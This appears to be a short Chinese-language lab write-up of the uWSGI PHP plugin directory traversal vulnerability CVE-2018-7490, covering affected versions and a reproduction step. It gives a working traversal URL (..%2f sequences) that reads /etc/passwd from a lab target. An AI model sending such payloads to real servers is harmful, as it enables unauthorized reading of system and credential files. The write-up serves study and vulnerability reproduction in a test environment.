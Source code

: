 

# uWSGI PHP目录遍历漏洞（CVE-2018-7490）

###### by ADummy

### 0x00利用路线

​			直接url执行

### 0x01漏洞介绍

​			uWSGI是一个Web应用程序服务器，它实现诸如WSGI / uwsgi / http之类的协议，并通过插件支持多种语言。

2.0.17之前的uWSGI的PHP插件无法`DOCUMENT_ROOT`正确检测到，导致无法`DOCUMENT_ROOT`通过使用读取或运行文件`..%2f`。

影响版本

```
uWSGI PHP Plugin  < 2.0.17
```

### 0x 02漏洞复现

访问`http://your-ip:8080`，您将看到phpinfo页面，因为uwsgi-php服务器已成功运行。

![uWSGI_PHP目录遍历漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/uWSGI_PHP目录遍历漏洞_1.jpg)

直接访问`http://your-ip:8080/..%2f..%2f..%2f..%2f..%2fetc/passwd`，您将获得passwd文件

![uWSGI_PHP目录遍历漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/uWSGI_PHP目录遍历漏洞_2.jpg)



